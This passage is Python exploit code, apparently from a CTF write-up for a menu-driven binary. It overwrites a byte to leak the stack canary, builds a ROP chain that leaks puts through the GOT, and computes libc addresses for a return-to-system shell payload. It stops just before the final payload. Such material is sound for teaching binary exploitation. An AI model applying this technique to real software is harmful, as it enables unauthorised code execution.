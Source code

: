 ```

def review():
  print target.recvuntil(">>")
  target.sendline('2')
  #print target.recvuntil("[*]PLEASE TREAT HIM WELL.....\n-------------------------\n")
  #leak = target.recvuntil("-------------------------").replace("-------------------------", "")
  print target.recvuntil("0"*0xa9)
  canaryLeak = target.recv(7)
  canary = u64("\x00" + canaryLeak)
  print "canary is: " + hex(canary)
  return canary

def leave():
  print target.recvuntil(">>")
  target.sendline("3")

# Start of with the canary leak. We will overflow the buffer write up to the stack canary, and overwrite the least signifcant byte of the canary
leakCanary = ""
leakCanary += "0"*0xa8 # Fill up space up to the canary
leakCanary += "0" # Overwrite least significant byte of the canary



feed(leakCanary) # Execute the overwrite

canary = review() # Leak the canary, and parse it out

# Start the rop chain to give us a libc infoleak
leakLibc = ""
leakLibc += "0"*0xa8 # Fill up space up to the canary
leakLibc += p64(canary) # Overwrite the stack canary with itself
leakLibc += "1"*0x8 # 8 more bytes until the return address
leakLibc += popRdi # Pop got entry for puts in rdi register
leakLibc += gotPuts # GOT address of puts
leakLibc += pltPuts # PLT address of puts
leakLibc += startMain # Loop back around to the start of main

# Send the payload to leak libc
feed(leakLibc)

# Return to execute our code
leave()

# Scan in and parse out the infoleak

print target.recvuntil("[*]BYE ~ TIME TO MINE MIENRALS...\x0a")

putsLeak = target.recvline().replace("\x0a", "")

putsLibc = u64(putsLeak + "\x00"*(8-len(putsLeak)))

# Calculate the needed addresses

libcBase = putsLibc - offsetPuts
systemLibc = libcBase + offsetSystem
binshLibc = libcBase + offsetBinsh

print "libc base: " + hex(libcBase)

# Form the payload to return to system

payload = ""
```
